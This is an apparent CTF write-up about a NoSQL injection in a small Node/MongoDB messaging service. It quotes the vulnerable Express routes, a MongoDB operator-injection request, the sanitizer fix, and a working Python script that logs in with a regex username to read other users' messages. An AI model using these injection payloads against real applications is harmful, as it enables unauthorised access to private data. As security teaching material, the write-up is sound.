



This was my first CTF and I will try to explain a vulnerability I fixed and exploited.

<!-- more -->

## Setup

During the CTF I [connected to the server with VSCode](https://code.visualstudio.com/docs/remote/ssh), which meant I had instant access to all files and could edit them without changing between multiple ssh windows with `nano` editors.

Also the extensions:

- [Docker](https://marketplace.visualstudio.com/items?itemName=ms-azuretools.vscode-docker):
  For always having an eye on your services, easy access to logs and one-click terminals to your containers.
- [REST Client](https://marketplace.visualstudio.com/items?itemName=humao.rest-client):
  For writing simple HTTP Requests in a file format. (see below)
- [Python](https://marketplace.visualstudio.com/items?itemName=ms-python.python)
  For writing the exploit in a simple jupyter notebook.

allowed for a hassle free search for vulnerabilities.

## Stonksexchange Vulnerability

[Here you can find the vulnerable service to try for yourself.](https://github.com/ldruschk/bambi-service-stonksexchange).

The service is a simple node application which allows exchange of messages for registered/loggedin users:



First I tried a simple XSS attack but was unsuccessful. Then it came to my mind that it might be some kind of injection attack as the service had a database.
After having a look at the files I noticed that user input was passed to the database without sanitizing it:

```javascript
// /routes/index.js
router.post("/register", function (req, res, next) {
  if (!req.body.username || !req.body.password) {
    res.status(400).send("Missing username or password");
    return;
  }
  var db = req.app.locals.db;
  /*
   * Notice the findOne() function below which
   * gets the data directly from the request body
   */
  db.collection("users")
    .findOne({ username: req.body.username })
    .then((results) => {
      if (results) {
        res.status(400).send("Username already in use");
        return;
      }
      argon2.hash(req.body.password).then((hash) => {
        db.collection("users")
          .insertOne({ username: req.body.username, password: hash })
          .then((results) => {
            req.session.user = req.body.username;
            res.redirect("/");
          });
      });
    });
});
```

Trying the Endpoint directly confirms the suspicion. [MongoDB Operators](https://docs.mongodb.com/manual/reference/operator/query/) are directly executable.

```HTTP
# This Request always returns "Username already in use" because the query "{"$ne": null}" returns the first user
# which names is not null (which is always the first user).
POST http://localhost:8199/register HTTP/1.1
content-type: application/json

{
  "username": {"$ne": null},
  "password": "$#@Call4Code"
}
```

This holds true for multiple functions and googling the words [`mongodb` `findOne`, `vulnerability`](https://www.google.com/search?q=mongodb+findone+vulnerability) leads to possible NoSQL injections.
So how to fix it? - [Stackoverflow is your friend](https://stackoverflow.com/questions/30585213/do-i-need-to-sanitize-user-input-before-inserting-in-mongodb-mongodbnode-js-co).
I didn't use the package recommended there, but instead used [express-mongo-sanitize](https://www.npmjs.com/package/express-mongo-sanitize). Installing it and adding the following two lines fixed the problem.

```javascript
// app.js

/**
 * Adding the following line to load the sanitizer
 */
const mongoSanitize = require("express-mongo-sanitize");

// ...

app.use(logger("dev"));
app.use(express.json());
app.use(express.urlencoded({ extended: false }));

/**
 * Use the sanitizer.
 */
app.use(mongoSanitize());
app.use(cookieParser());
```

Trying the endpoints again leads to a new user `{"$ne": null}`. :)

## Stonksexchange Exploit

Now that we know that the endpoints `/register`, `/login` and `/messages` are vulnerable we have to look for the flags.

> Notice that you won't have any flags locally because there is no server putting them there!

Looking into the database we can see messages with flags. But how to retrieve them?



Having a look at the `/messages` endpoint we can see that `req.session.user` is used without sanitizing it, which means if we can put an Operator like `{"$regex": "."}` there (which matches any character and thus any user), we can retrieve the first 50 messages of the database.

```javascript
router.get("/messages", function (req, res, next) {
  if (!req.session.user) {
    res.status(403).send("Not logged in");
    return;
  }
  var db = req.app.locals.db;
  /**
   * Notice that req.session.user is passed without sanitizing it
   */
  db.collection("messages")
    .find({ username: req.session.user }, { sort: { $natural: -1 } })
    .limit(50)
    .toArray((err, results) => {
      if (err) {
        res.status(500).send("Internal server error");
        return;
      }
      res.locals.messages = results;
      res.render("messages", { title: "Messages" });
    });
});
```

Because `user` is read from the `session` we have to "login" with the query we want to execute first.

```javascript
router.post("/login", function (req, res) {
  if (!req.body.username || !req.body.password) {
    res.status(400).send("Missing username or password");
    return;
  }
  var db = req.app.locals.db;
  /**
   * The first user matching the username is returned,
   * if the username is a query like {"$regex": "."} we have to consider the sort function.
   */
  db.collection("users")
    .findOne({ username: req.body.username }, { sort: { $natural: -1 } })
    .then((results) => {
      if (!results) {
        res.status(400).send("Invalid username or password");
        return;
      }
      argon2.verify(results.password, req.body.password).then((result) => {
        if (!result) {
          res.status(400).send("Invalid username or password");
          return;
        }
        req.session.user = req.body.username;
        res.redirect("/");
      });
    });
});
```

Viewing the `/login` enpoint we can see that the first user matching the query will be returned. As we want the username to be `{"$regex": "."}` we have to consider the ([natural](https://docs.mongodb.com/v4.2/reference/glossary/#term-natural-order)) sort order.



In this case `findOne` will always return the last created user. For a successful login we have to know the password of the user. What better way to just create one?

Lets put it together in a python script:

```python
import requests
base = "http://localhost:8199"

# Prepare the exploit by creating a user with a password we know
prepare = requests.Session()
register = prepare.post(base + '/register', json={ 'username': "sdfsdf", "password": "masterpass" })
# This status code should be 200
print(register.status_code)

# Create the exploit Session
exploit = requests.Session()
# Login with the query we want to execute
register = exploit.post(base + '/login', json={ 'username': {"$regex": "."}, "password": "masterpass" })
# This status code should be 200
print(register.status_code)

# Get all messages
messages = exploit.get(base + "/messages")
print(messages.content)
```

> During the CTF new users where created from other people exploiting the service, which meant that in order to login with all matching regex a new user had to be created each time.

Thanks to [Enoflag](http://enoflag.de/) for hosting this event!
